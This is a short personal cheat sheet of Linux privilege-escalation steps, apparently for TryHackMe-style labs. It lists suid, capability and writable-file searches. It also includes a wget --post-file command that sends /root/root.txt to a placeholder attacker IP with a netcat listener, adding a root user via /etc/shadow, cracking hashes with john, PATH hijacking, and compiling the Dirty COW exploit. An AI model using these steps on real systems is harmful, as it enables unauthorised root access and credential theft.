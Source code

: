 * Check what we can run as sudo
* Check cronjobs
* Find insecure permissions
* linux capabilities
* check setuid bits
* Check around for creds in config files
* check for random programs  
* check for any groups user is part of and other users on the box


**Kernel Exploits, sudo run, suid binaries, linux version, cronjobs, PATH, nfs shares, getcap**
 
Find suid binaries: find / -perm -u=s -type f 2>/dev/null

Cronjobs - /etc/crontab

Find all files owned by a user: 
find / -name pepper 2>/dev/null 
find / -user ash  -type d 2>/dev/null  (for directories)
Monitor linux processes without root (pspy)
If have write  access to /etc/shadow
Add our name with root priv at the end, add: root:/bin/bash used to provide a root shell to the added user
Send files with wget:
Thm machine: sudo /usr/bin/wget --post-file=/root/root.txt <my ip>
My machine: nc -lvp 80  > hash

Uname -a and check for kernel exploits
/proc/version

Getcap capabilities: getcap -r / 2>/dev/null

Johntheripper jtr shadow file: 
unshadow passwd.txt shadow.txt > passwords.txt  
john passwords.txt  


Find writable folders: find / -writable 2>/dev/null
find / -writable 2>/dev/null | cut -d "/" -f 2,3 | grep -v proc | sort -u
Path variable change: export PATH=/home/murdoch:$PATH

dirty cow exploit for old vms
https://github.com/FireFart/dirtycow/blob/master/dirty.c
gcc -pthread dirty.c -o dirty -lcrypt

If you have a sql config. Log into mysql or any version of mysqql for ex mysql_dump

